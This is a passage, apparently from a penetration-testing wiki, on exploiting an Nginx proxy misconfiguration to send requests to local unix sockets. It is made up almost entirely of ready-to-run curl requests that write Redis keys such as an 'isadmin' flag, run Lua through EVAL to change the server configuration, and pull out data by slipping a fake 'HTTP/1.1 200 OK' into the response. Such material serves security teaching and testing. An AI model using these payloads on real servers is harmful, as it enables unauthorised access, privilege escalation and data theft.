 {% tab title="Exploit" %}
Because of this missconfiguration, we can send a request to a local unix socket.

```bash
#Request
curl 'http://example.com/static/unix:%2ftmp%2fsocket.sock:TEST/app-1555347823-min.js'

#Request sent to /tmp/socket.sock after proxy
GET TEST-example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```

For example, we can use it to make requests to a Redis socket and **write any key**:

```bash
#Request that set the key: "hacked" "isadmin" true
curl -X HSET "http://example.com/static/unix:/var/run/redis/redis.sock:hacked%20isadmin%20true%20/random"

#Request sent to /var/run/redis/redis.sock (Redis socket)
HSET hacked "isadmin" "true" -example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```

**Arbitrary Redis command execution** vulnerability may be abuse using the [EVAL](https://redis.io/commands/eval/) command from Redis. We can execute Redis commands from EVAL using two different Lua functions: `redis.call()` and `redis.pcall()`

```bash
# Request to overwrite the maxclients config key:
curl -X EVAL "http://example.com/static/unix:/var/run/redis/redis.sock:%22return%20redis.call('config','set','maxclients',1337)%22%200%20/app-1555347823-min.js" 

#Request sent to /var/run/redis/redis.sock (Redis socket)
EVAL "return redis.call('config','set','maxclients',1337)" 0 -example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```

{% hint style="info" %}
None of these commands respond with a valid HTTP response, and Nginx will not forward the output of the commands to the client, but instead a generic 502 Bad Gateway error.
{% endhint %}

**Extracting data** can be done avoiding the `502` error by simply having the string `HTTP/1.0 200 OK` anywhere in the response using string concatenation in the Lua script.

```bash
#Request to extract response from the CONFIG GET * command
#You may use other commands like redis.call("hgetall","key") for HGETALL
curl -X EVAL 'http://example.com/static/unix:/var/run/redis/redis.sock:%27return%20(table.concat(redis.call("config","get","*"),"\n").."%20HTTP/1.1%20200%20OK\r\n\r\n")%27%200%20/app-1555347823-min.js'

#Request sent to /var/run/redis/redis.sock (Redis socket)
EVAL 'return (table.concat(redis.call("config","get","*"),"\n").." HTTP/1.1 200 OK\r\n\r\n")' 0 -example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```
{% endtab %}
{% endtabs %}
